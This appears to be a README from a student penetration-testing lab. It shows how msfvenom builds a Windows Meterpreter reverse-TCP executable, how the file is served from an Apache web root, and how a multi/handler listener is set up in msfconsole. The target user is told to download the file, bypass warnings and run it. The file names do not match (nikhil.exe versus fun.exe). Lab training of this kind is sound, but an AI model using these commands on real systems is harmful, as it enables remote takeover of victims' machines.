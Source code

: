 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="732" height="498" alt="image" src="https://github.com/user-attachments/assets/f0b21e63-c196-4f8c-9cf4-c57bf565aa07" />


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > nikhil.exe```

### Output:

<img width="917" height="244" alt="image" src="https://github.com/user-attachments/assets/e0c1c121-7bf8-4db7-9636-c464a5893f83" />



copy the nikhil.exe into the apache ```/var/www/html ```folder

<img width="409" height="122" alt="image" src="https://github.com/user-attachments/assets/bf91f50e-ed72-49ce-91b6-68b8f9751ae4" />
<img width="311" height="65" alt="image" src="https://github.com/user-attachments/assets/b72bc5ed-aefc-4229-be0e-8990f59cb038" />



Start apache server ```sudo systemctl apache2 start``` 
Check the status of apache2 ```sudo apache2 status```

<img width="809" height="385" alt="Screenshot 2025-09-29 083722" src="https://github.com/user-attachments/assets/b193bd17-d388-4ea2-885d-1338913f62b7" />



Invoke msfconsole:

<img width="642" height="648" alt="image" src="https://github.com/user-attachments/assets/24e92ff8-eda2-412d-a045-365ee9e44697" />


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="754" height="497" alt="image" src="https://github.com/user-attachments/assets/72c1356d-0d76-4d8d-9517-313e78b7f361" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
